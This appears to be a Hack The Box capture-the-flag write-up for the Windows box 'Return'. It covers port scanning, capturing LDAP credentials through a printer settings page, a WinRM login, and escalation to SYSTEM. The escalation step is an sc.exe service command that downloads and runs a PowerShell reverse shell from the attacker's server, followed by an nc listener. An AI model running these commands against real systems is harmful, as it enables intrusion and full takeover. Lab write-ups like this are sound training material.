 ```yaml
---
layout: post
title: HTB Return Writeup  
subtitle: Easy Box
thumbnail-img: /assets/img/return/logo.png
tags: [HTB]
---
```


# Notes
![Return](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/return/logo.png)


| Name | Return |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 27 Sept 2021 |
| DIFFICULTY | Easy |

# About

Return is a machine from Hack The Box. This machine focuses on attacking an exposed printer configuration to gain WinRm credentials. To gain system we learn that we are a port of the "Server Operators" group that will let us escalate our privilege's by creating a new service that will give us a reverse shell

# Port Scan

IP: 10.10.11.108

```
PORT      STATE SERVICE       VERSION                                                                                                                                                        
53/tcp    open  domain        Simple DNS Plus                                                                                                                                                
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                                       
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                                     
| http-methods:                                                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                                                         
|_http-title: HTB Printer Admin Panel                                                                                                                                                        
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-01-18 02:51:35Z)                                                                                                 
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                                          
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn               
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?                                                                 
464/tcp   open  kpasswd5?                
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped                   
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped              
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found              
9389/tcp  open  mc-nmf        .NET Message Framing                                          
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                                                                                                  
|_http-title: Not Found                                                                                                                                                                      
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC              
49667/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC                                                                                                                                          
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0    
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
56124/tcp open  msrpc         Microsoft Windows RPC                  
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

```

There are lots of open ports and we can learn a few things from them.

1.  It is a windows machine
2.  It is running inside a Active Directory domain
    1.  Port 135/139/445 SMB
    2.  Port 88 Kerberos
    3.  Port 389/636 LDAP

We also see that it is running an IIS Webserver. Web servers generally have a big attack surface so I like to start there.

# HTTP Port 80

Clicking around I can see that it is running PHP from the url `http://10.10.11.108/index.php`

There is another page called "Settings". On the page, we can see that we have a Username of `svc-printer` and a password that is hidden. I tried to update the password but we can see that the request only updates the "Server Address" field

```
POST /settings.php HTTP/1.1
Host: 10.10.11.108
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.11.108
Connection: close
Referer: http://10.10.11.108/settings.php
Upgrade-Insecure-Requests: 1

ip=printer.return.local
```

Since we have control over the IP we can redirect the LDAP request to our kali machine harvesting the password. Instead of sending the LDAP request to return it will send it to us

![Return](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/return/1.png)

![Return](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/return/2.png)

# User Shell

Now that we have some credentials `svc-printer:1edFg43012!!` we can try and log into some services. The first one I'll try is WinRM using, if you don't have it installed you can easily do it by running `gem install evil-winrm`. As you can see below we get a session!

```
┌──(root💀kali)-[~/htb/return]
└─# evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'  

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents>

```

From there we can change our directory to `C:\Users\svc-printer\Desktop` and get our user flag!

# nt authority\\system

Doing some basic privilege enumeration on our user we can see that we are a member of "Server Operators". Server operators can start and stop services as well as create them (with admin privileges). We can exploit this to elevate to system by creating a service that will download PowerShell reverse shell and execute it as system!

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop>  net user svc-printer 
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 12:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users

```

## PowerShell reverse shell

For my reverse shell I'll use nishang's "Invoke-PowerShellTcpOneLine.ps1". I uncommented the first one and added in my kali ip and port. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1

Then I started up a python http server to allow Return to download it.
`python3 -m http.server 81`

I also started up a listener for our shell
`nc -lvnp 4444`

## Create new service and run

Next, we will run the following command to create a new service called "VSS" that will download our PowerShell reverse shell and run it

`sc.exe config VSS binpath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://YOUR IP:81/Invoke-PowerShellTcpOneLine.ps1')"`

Next we will run `sc.exe stop VSS` to stop the service
And finally, we will start it by executing `sc.exe start VSS`

We can see that it downloaded our reverse shell

```
┌──(root💀kali)-[~/htb/return]
└─# python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.11.108 - - [17/Jan/2022 22:11:09] "GET /Invoke-PowerShellTcpOneLine.ps1 HTTP/1.1" 200 -
```

And looking at our listener we have a shell at system

```
┌──(root💀kali)-[~/htb/return]
└─# nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.108] 54589
whoami
nt authority\system
PS C:\Windows\system32> 
```
